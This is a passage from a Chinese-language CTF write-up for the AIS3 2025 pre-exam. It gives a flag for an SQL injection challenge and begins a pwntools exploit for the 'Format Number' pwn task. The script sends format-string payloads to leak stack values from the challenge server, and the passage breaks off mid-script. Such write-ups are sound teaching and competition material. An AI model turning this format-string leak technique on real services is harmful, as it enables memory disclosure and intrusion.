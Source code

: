 ![Screenshot 2025-06-03 at 23.44.41](/posts/2025-AIS3-PreExam-MyFirstCTF-Writeup/image12.webp)

Flag：`AIS3{1.Es55y_SQL_1nJ3ct10n_w1th_2fa_IuABDADGeP0}`

後記：其實題目一開始沒有放原始碼，我是用 dirsearch 爆出資料庫路徑的。

## pwn

### Format Number

#### 題目

> Print the number in the format you like !
> 
> nc chals1.ais3.org 50960
>
> Author : Curious

#### Writeup

直接上 exploit：

```python=
from pwn import *

context.log_level = 'critical'
host = "chals1.ais3.org"
port = 50960

def leak_stack(offset):
    p = remote(host, port)
    p.recvuntil(b'What format do you want ? ')
    
    payload = f"".encode() + b'\x5c' + f'%{offset}$'.encode()
    p.send(payload)

    p.recvuntil(b"Format number : ")
```